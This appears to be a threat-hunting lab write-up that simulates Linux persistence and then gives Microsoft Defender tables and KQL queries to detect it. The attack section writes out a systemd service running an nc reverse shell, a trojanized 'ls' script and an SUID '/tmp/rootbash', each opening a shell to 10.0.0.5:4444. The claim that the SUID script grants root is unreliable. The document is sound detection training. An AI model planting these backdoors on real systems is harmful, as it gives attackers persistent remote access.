 # Threat Event (Persistence)

**Unauthorized Persistence Mechanisms Creation**

## Steps the "Bad Actor" took to Create Logs and IoCs:

1. Downloaded and installed a **malicious systemd service** to ensure the backdoor would automatically start on system reboot.
- The service was configured to run a reverse shell or malicious command to maintain access after rebooting the system.

```# Create a malicious systemd service that will ensure persistence by executing a reverse shell
echo '[Unit]
Description=Malicious Service
After=network.target

[Service]
ExecStart=/bin/bash -c "nc -e /bin/bash 10.0.0.5 4444"
Restart=always
User=root

[Install]
WantedBy=multi-user.target' > /etc/systemd/system/malicious.service

# Enable and start the malicious service
sudo systemctl enable malicious.service
sudo systemctl start malicious.service
```

2. Replaced the legitimate `ls` command with a Trojanized script located at `/home/baddog/.local/bin/ls`.
- This Trojanized script was designed to execute a reverse shell when invoked, providing continued access to the system without raising suspicion.

```
echo '#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1' > /home/baddog/.local/bin/ls
chmod +x /home/baddog/.local/bin/ls
```

3. **Created a backdoor shell at `/tmp/rootbash`, set the **SUID permission** on the shell (`chmod u+s /tmp/rootbash`), and made it executable by any user.
- This backdoor shell was designed to escalate privileges and grant root access, regardless of the user executing

```
echo '#!/bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.5/4444 0>&1' > /tmp/rootbash
chmod u+s /tmp/rootbash
chmod +x /tmp/rootbash
```

---

## Tables Used to Detect IoCs:

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceProcessEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-deviceprocessevents-table |
| **Purpose** | Used to detect execution of Trojanized commands, privilege escalation attempts, and service creation. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceFileEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicefileevents-table |
| **Purpose** | Used to detect the creation and modification of system files, including systemd services and backdoor binaries. |

| **Parameter** | **Description** |
|--------------|----------------|
| **Name** | DeviceLogonEvents |
| **Info** | https://learn.microsoft.com/en-us/defender-xdr/advanced-hunting-devicelogonevents-table |
| **Purpose** | Used to detect unauthorized remote logins or unusual authentication patterns. |

---

## Related Queries:

```kql
// Detect execution of a Trojanized administrative command
DeviceProcessEvents
| where ProcessCommandLine contains "ls"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect execution of a SUID backdoor shell
DeviceProcessEvents
| where ProcessCommandLine contains "rootbash"
| project Timestamp, DeviceName, AccountName, ActionType, ProcessCommandLine

// Detect potential unauthorized logins
DeviceLogonEvents
| where AccountName contains "root"
| where LogonType in ("RemoteInteractive", "Interactive")
| project Timestamp, DeviceName, AccountName, RemoteIP, LogonType
```

---

## Created By:
- **Author Name**: James Harrington
- **Author Contact**: https://www.linkedin.com/in/Goodk47
- **Date**: January 30, 2025

## Validated By:
- **Reviewer Name**:
- **Reviewer Contact**:
- **Validation Date**:

---

## Additional Notes:
**None**

